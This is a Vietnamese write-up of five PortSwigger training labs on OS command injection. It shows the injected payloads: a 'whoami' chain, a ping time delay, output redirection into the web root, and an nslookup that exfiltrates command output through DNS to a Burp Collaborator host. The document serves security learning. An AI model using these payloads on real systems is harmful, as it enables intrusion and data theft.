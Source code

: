 # OS Command Injection

## Lab: OS command injection, simple case

### Link: [https://portswigger.net/web-security/os-command-injection/lab-simple](https://portswigger.net/web-security/os-command-injection/lab-simple)

![](images/1.png)

Đề cho gợi ý rằng có lỗi OS command injection tại product stock checker và yêu cầu chạy câu lệnh `whoami`

Ấn vào đại một product ta thấy đây là phần check stock

![](images/2.png)

Dựa vào địa điểm ta chọn sau khi nhấn check stock sẽ trả về số units còn lại

Ta có thể đoán được là server sẽ chạy lệnh shell để tìm số stock còn lại dựa trên giá trị ta chọn. Inspect web, ta thấy value tương ứng là `1, 2, 3` giá trị này sẽ gửi đi với biến `storeId` sau khi ta nhấn check

![](images/3.png)

Sửa giá trị của London thành `1&whoami` và chọn `London` để checkstock

![](images/4.png)

Kết quả

![](images/5.png)

Như vậy là ta đã thành công

## Lab: Blind OS command injection with time delays

### Link: [https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

![](images/6.png)

Đề gợi ý rằng có lỗi tại feedback function, và yêu cầu chúng ta exploit một lệnh gây độ trễ 10s

Vào trang web, ta thấy có phần submit feedback, click vào thì ta được giao diện như sau

![](images/7.png)

Vậy là 1 trong 4 input sẽ được server dùng làm input lệnh shell gây lỗi, vậy ta cần thử từng input 1

Nhập input như trên, ấn submit và bắt gói tin bằng BurpSuite, sử dụng chức năng repeater.

![](images/8.png)

Ta thử từng input bằng cách thêm `||ping+-c+10+127.0.0.1||` vào sau 

Ở đây lệnh `ping -c 10 127.0.0.1` sẽ là lệnh tạo ra độ trễ 10s mà ta dùng

![](images/9.png)

Sau khi thử thì mình tìm được trường email chính là vị trí gây ra lỗi

Sau khi tốn 10s chạy lệnh thì respone trả về là 200OK

![](images/10.png)

Như vậy là ta đã exploit thành công, refresh lại trang

![](images/11.png)

## Lab: Blind OS command injection with output redirection

### Link: [https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

![](images/12.png)

Đề yêu cầu exploit câu lệnh `whoami`, tuy nhiên kết quả sẽ không còn trả về trong respone, mà ta phải ghi vào một file tại địa chỉ `/var/www/images`, sau đó truy suất tới file đó để xem kết quả, lỗ hổng vẫn nằm ở hàm feedback như lab trước

Làm tương tự như lab trước, submit đại một feedback và bắt gói tin bằng burpsuite

![](images/13.png)

Lần này payload trong phần email của chúng ta là `||whoami>/var/www/images/whoami.txt||`

Lệnh `whoami>/var/www/images/whoami.txt` sẽ ghi kết quả của câu lệnh `whoami` vào file `whoami.txt` nằm tại đường dẫn `/var/www/images/`, nơi chúng ta được phép ghi.

![](images/14.png)

Chúng ta đã thực thi câu lệnh thành công, tiếp theo là truy suất đến file `whoami.txt` để xem kết quả.

Vì đường dẫn có thư mục images nên mình nghĩ nó liên quan đến load ảnh trên trang web

![](images/15.png)

Kiểm tra 1 ảnh trên web, ta thấy các ảnh được truy suất bằng `/image?filename=`

![](images/16.png)

Ta refresh trang web và dùng BurpSuite bắt 1 request tới các ảnh, sửa `filename=whoami.txt`

![](images/17.png)

Kết quả trả về output của câu lệnh `whoami` là `peter-AfyGXd`

![](images/18.png)

Exploit thành công

## Lab: Blind OS command injection with out-of-band interaction

### Link: [https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

![](images/19.png)

Vẫn là lỗ hổng cũ giống các bài trước, lần này đề yêu cầu chúng ta gọi một truy vấn DNS tới Burp Collaborator. Yêu cầu cần truy vấn DNS tới chính xác địa chỉ `burpcollaborator.net`

Vẫn tương tự các bước cũ, submit một feedback và dùng BurpSuite để bắt gói tin get, payload lần này của chúng ta là `||nslookup+burpcollaborator.net||`

![](images/20.png)

Với lệnh `nslookup burpcollaborator.net` sẽ gọi truy vấn dns tới địa chỉ `burpcollaborator.net`

![](images/21.png)

Exploit thành công

## Lab: Blind OS command injection with out-of-band data exfiltration

### Link: [https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

![](images/22.png)

Vẫn là lỗ hổng giống các bài trước nên mình không nói lại nữa, lần này chúng ta sẽ gọi truy vấn dns, tuy nhiên nâng cao hơn bài trước là truy vấn này sẽ đem theo kết quả của câu lệnh `whoami`

Để làm bài này, ta cần setup BurpCollaborator, vào `Burp->Burp Collaborator client -> Copy to clipboard` để lấy địa chỉ `BurpCollaborator` vừa tạo

Địa chỉ lúc mình làm là: `2cf6ywg0te8yhuewczlo8f1p2g87ww.burpcollaborator.net`

Bắt gói tin sumitfeedback và thêm payload của email thành  ```||nslookup+`whoami`. 2cf6ywg0te8yhuewczlo8f1p2g87ww.burpcollaborator.net||```

![](images/23.png)

Giả sử câu lệnh `whoami` có ouput là `user`

Lúc này lệnh ```nslockup `whoami`. 2cf6ywg0te8yhuewczlo8f1p2g87ww.burpcollaborator.net``` sẽ gọi truy vấn dns tới tên miền `2cf6ywg0te8yhuewczlo8f1p2g87ww.burpcollaborator.net` để tìm địa chỉ ip cho tên miền `user. 2cf6ywg0te8yhuewczlo8f1p2g87ww.burpcollaborator.net` từ đó ta có thể biết được ouput của câu lệnh `whoami`

![](images/24.png)

Các truy vấn dns được gửi đến `2cf6ywg0te8yhuewczlo8f1p2g87ww.burpcollaborator.net`, ta có thể thấy kết quả câu lệnh `whoami` là `peter-A0rR9U`

![](images/25.png)

Submit `peter-A0rR9U` và ta đã exploit thành công
